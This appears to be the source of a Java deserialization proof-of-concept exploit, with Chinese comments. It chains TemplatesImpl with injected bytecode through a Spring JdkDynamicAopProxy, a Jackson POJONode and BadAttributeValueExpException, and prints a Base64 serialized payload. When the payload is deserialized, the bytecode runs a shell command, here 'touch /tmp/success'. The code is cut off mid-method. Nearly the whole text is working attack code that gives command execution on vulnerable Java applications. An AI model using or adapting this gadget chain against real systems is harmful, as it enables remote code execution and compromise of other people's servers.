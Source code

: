 ```java  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import javassist.*;    
import org.springframework.aop.framework.AdvisedSupport;    
import javax.management.BadAttributeValueExpException;    
import javax.xml.transform.Templates;    
import java.io.*;    
import java.lang.reflect.*;    
import java.util.Base64;    
    
import java.util.UUID;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;,  null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
    
        //利用 JdkDynamicAopProxy 进行封装使其稳定触发    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;);    
        Constructor&lt;?&gt; cons = clazz.getDeclaredConstructor(AdvisedSupport.class);    
        cons.setAccessible(true);    
        AdvisedSupport advisedSupport = new AdvisedSupport();    
        advisedSupport.setTarget(templates);    
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);    
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);    
    
        POJONode node = new POJONode(proxyObj);    
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);    
        setFieldValue(val,&#34;val&#34;,node);    
        System.out.println(serialize(val));    
    }    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;touch /tmp/success\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
```